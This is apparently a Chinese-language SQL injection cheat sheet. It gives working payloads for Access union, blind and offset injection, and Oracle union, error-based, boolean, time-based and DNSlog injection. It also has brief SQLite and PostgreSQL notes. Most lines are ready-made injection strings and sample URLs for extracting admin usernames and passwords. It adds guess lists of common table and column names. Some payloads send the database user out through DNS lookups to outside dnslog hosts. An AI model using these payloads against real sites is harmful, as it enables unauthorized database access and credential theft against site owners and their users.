?id=-1 union select 1,2,3,4,5,6,7,8,9,10 找到注入位

?id=-1 union select 1,user,password,4,5,6,7,8,9,10 from admin（即可爆出账号密码）

### 无回显：

查表：and exists (select \* from 表名) 存在的话就返回正常 不存在就返回不正常

查列：and exists (select 列名 from 表名)

查内容：and (select top 1 asc(mid(user,1,1))from admin)=97

and (select top 1 asc(mid(user,2,1))from admin)=97 猜字段(username)中第一条记录内容的第二个字符

and (select top 2 asc(mid(user,1,1))from admin)=97 猜字段(username)中第二条记录内容的第一个字符

### 偏移注入（回显数连续）

假设已经判断存在admin表，order by下判断有35行，且回显如下回显字段连续


UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,\* from admin --返回错误页面

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,\* from admin --返回错误页面

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,\* from admin --返回错误页面

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,\* from admin --返回到一个错误页面提示查询语句出错，因此admin表的列数为6

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,admin.\*,34,35 from admin

因为回显如下图 28 29 30是连着的，直接在27后加表名.\*


爆出内容  


UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,admin.\*,34,35 from admin where id = 3 添加where id =数值，可得到更多的内容

### 偏移注入（常规操作）

Access偏移注入：表名知道，列名无法获取的情况下。

存在注入点，且order by下判断出字段数为22行

**爆出显位**

127.0.0.1/asp/index.asp?id=1513 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 from admin

\*\*\*\*\***号判断直到页面错误有变化**

127.0.0.1/asp/index.asp?id=1513 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,\* from admin 正确

说明admin有6个字段

**Access\*\*\*\*偏移注入**，基本公式为：

order by 出的字段数减去\*号的字段数，然而再用order by的字段数减去2倍刚才得出来的答案；

也就是：

\* = 6个字符

2 × \* = 12个字符

22 - 12 = 10个字符

一级偏移语句：

127.0.0.1/asp/index.asp?id=1513 union select 1,2,3,4,5,6,7,8,9,10,\* from (admin as a inner join admin as b on a.id = b.id)

二级偏移语句：

127.0.0.1/asp/index.asp?id=1513 union select 1,2,3,4,a.id,b.id,c.id,\* from ((admin as a inner join admin as b on a.id = b.id)inner join admin as c on a.id=c.id)

实战常见的表和列（也可以用sqlmap的，但是量大且效率低）

常见的表有（最后根据企业名的缩写搭配上admin、user、name）

admin admins admin\_user admin\_usr admin\_msg admin\_login user username manager msg\_user msg\_login useradmin product、news、usr、system、article、customer、area

admin\_id、admin\_name、admin\_password

常见的列

admin admin\_user username password passwd pass pwd users usr user\_login user\_name login\_name name等等

oracle注入(jsp)


## 常规有回显注入

order by 3--

and 1=2 union select null,null,null from dual--

and 1=2 union select 'null',null,null from dual-- //返回正常，则第一个字段是数字型，返回错误，为字符型

and 1=2 union select 1,'2','3' from dual-- //判断显示位

and 1=2 union select null,(select banner from sys.v\_$version where rownum=1),null from dual-- //探测数据库版本信息

and 1=2 union select null,(select table\_name from user\_tables where rownum=1),null from dual-- //查询第一个表名

and 1=2 union select null,(select table\_name from user\_tables where rownum=1 and table\_name<>'STUDENT'),null from dual-- //第二个表名

获取关键表中的列名：

' union select null,(select column\_name from user\_tab\_columns where table\_name='T\_USER' and rownum=1),null from dual --

' union select null,(select column\_name from user\_tab\_columns where table\_name='T\_USER' and column\_name<>'SUSER' and rownum=1),null from dual --

' union select null,(select column\_name from user\_tab\_columns where table\_name='T\_USER' and column\_name<>'SUSER' and column\_name<>'SPWD' and rownum=1),null from dual --

' union select null,(select column\_name from user\_tab\_columns where table\_name='T\_USER' and column\_name<>'SUSER' and column\_name<>'SPWD' and column\_name<>'SNAME' and rownum=1),null from dual --

and 1=2 union select SNAME,SUSER,SPWD from T\_USER where id=1-- //查看数据

### 第二种常规注入

确定回显位，假设当前共2个字段，全是数字型，判断方式如下：  
and 1=2 union select 1,2 from dual 假设回显位是2，爆当前数据库中的第一个表：  
and 1=2 union select 1,(select table\_name from user\_tables where rownum=1) from dual 爆当前数据库中的第二个表：  
and 1=2 union select 1,(select table\_name from user\_tables where rownum=1 and table\_name not in ('第一个表')) from dual 以此类推去爆第n个表  
爆某表中的第一个字段：  
and 1=2 union select 1,(select column\_name from user\_tab\_columns where rownum=1 and table\_name='表名（大写的）') from dual 爆某表中的第二个字段：  
and 1=2 union select 1,(select column\_name from user\_tab\_columns where rownum=1 and table\_name='表名' and column\_name not in ('第一个字段')) from dual 爆其它字段以此类推  
爆某表中的第一行数据：  
and 1=2 union select 1,字段1||字段2...||字段n from 表名 where rownum=1 --连接多个字段用到的连接符号是||,在oracle数据库中，concat函数只能连接两个字符串

### 报错注入

利用 utl\_inaddr.get\_host\_name  
这种方法在Oracle 8g，9g，10g中不需要任何权限，但是在Oracle 11g以及以后的版本中，当前数据库用户必须有网络访问权限。

jsp?name=' and 1=utl\_inaddr.get\_host\_name((select user from dual)) --

ctxsys.drithsx.sn()

jsp?name=' and 1=ctxsys.drithsx.sn(1,(select user from dual)) --

dbms\_xdb\_version.checkin()

jsp?name=1' and (select dbms\_xdb\_version.checkin((select user from dual)) from dual) is not null—

dbms\_utility.sqlid\_to\_sqlhash()

jsp?name=1' and (SELECT dbms\_utility.sqlid\_to\_sqlhash((select user from dual)) from dual) is not null --

XMLType()

sname=1′ and (select upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null --

### 布尔注入

```text
jsp?id=1 and 1=(select decode(substr(user,1,1),'S',1,0) from dual) --
```

username=admin' and (select substr(user, 1, 1) from dual)='S' --

### 时间盲注

主要用DBMS\_PIPE.RECEIVE\_MESSAGE

即user的第一位是"A"时，延时5秒执行。

And 1=(select decode(substr(user,1,1),'A',DBMS\_PIPE.RECEIVE\_MESSAGE('a',5) ,0) from dual)

第二位是D时，延时5秒

And 1=(select decode(substr(user,2,1),'D',DBMS\_PIPE.RECEIVE\_MESSAGE('a',5) ,0) from dual)

news.jsp?id=1 and 1=(select decode(substr(user,1,1),'S',dbms\_pipe.receive\_message('RDS',5),0) from dual) –

### DNSlog注入

utl\_inaddr.get\_host\_address

select utl\_inaddr.get\_host\_address((select user from dual)||'.cbb1ya.dnslog.cn') from dual

SYS.DBMS\_LDAP.INIT 这个函数在 10g/11g 中是 public 权限.

SELECT DBMS\_LDAP.INIT((select user from dual)||'.24wypw.dnslog.cn',80) FROM DUAL;

## 拓展

## Sqlite注入

如果您的站点允许用户通过网页输入，并将输入内容插入到 SQLite 数据库中，这个时候您就面临着一个被称为 SQL 注入的安全问题。本章节将向您讲解如何防止这种情况的发生，确保脚本和 SQLite 语句的安全。

1.Sqlite-master:这个是内置系统表、相当于mysql的information\_schema

但是这里只存有表的信息，里面有个sql字段，有各个表的结构，有表名，字段名和类型

2.sqlite并不支持像mysql那样的注释，但是可以通过 — 方式增加DDL注释(写shell会用到)

## Postsql注入

PostgreSQL是一种特性非常齐全的自由软件的对象-关系型数据库管理系统（ORDBMS），4.2版本为基础的对象关系型数据库管理系统。

PostgreSQL安装后，默认的端口是：5432，默认的用户名是： postgres ，默认的数据库也是：postgres 。

+   注释符：--
+   延时函数：pg\_sleep(3)

**Oracle注入**

基础知识  
Oracle 使用查询语句获取数据时需要跟上表名，没有表的情况下可以使用dual，dual是Oracle的虚拟表，用来构成select的语法规则，Oracle保证dual里面永远只有一条记录。

Oracle的数据类型是强匹配的(MYSQL有弱匹配的味道)，所以在Oracle进行类似UNION查询数据时候必须让对应位置上的数据类型和表中的列的数据类型是一致的，也可以使用null代替某些无法快速猜测出数据类型的位置。

